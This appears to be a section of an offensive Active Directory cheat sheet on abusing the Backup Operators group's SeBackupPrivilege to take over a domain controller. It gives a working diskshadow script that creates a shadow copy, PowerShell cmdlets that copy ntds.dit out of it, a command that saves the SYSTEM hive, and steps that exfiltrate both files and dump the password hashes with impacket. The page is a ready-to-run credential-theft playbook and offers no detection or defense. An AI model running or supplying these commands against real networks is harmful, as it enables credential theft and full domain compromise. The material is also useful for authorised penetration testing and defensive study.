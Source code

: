 ### **Abusing Backup Operators Group**

_If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA._

1. Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
    
    ```
    #Create a .txt file that will contain the shadow copy process script
    Script ->{
    set context persistent nowriters
    set metadata c:\\windows\\system32\\spool\\drivers\\color\\example.cab
    set verbose on
    begin backup
    add volume c: alias mydrive
    
    create
    
    expose %mydrive% w:
    end backup
    }
    
    #Execute diskshadow with our script as parameter
    diskshadow /s script.txt
    ```
    
2. Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:
    
    ```
    #Importing both dlls from the repo using powershell
    Import-Module .\\SeBackupPrivilegeCmdLets.dll
    Import-Module .\\SeBackupPrivilegeUtils.dll
    
    #Checking if the SeBackupPrivilege is enabled
    Get-SeBackupPrivilege
    
    #If it isn't we enable it
    Set-SeBackupPrivilege
    
    #Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
    Copy-FileSeBackupPrivilege w:\\windows\\NTDS\\ntds.dit c:\\<PathToSave>\\ntds.dit -Overwrite
    
    #Dump the SYSTEM hive
    reg save HKLM\\SYSTEM c:\\temp\\system.hive
    ```
    
3. Using [smbclient.py](http://smbclient.py) from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
    
4. Use [secretsdump.py](http://secretsdump.py) from impacket and dump the hashes.
    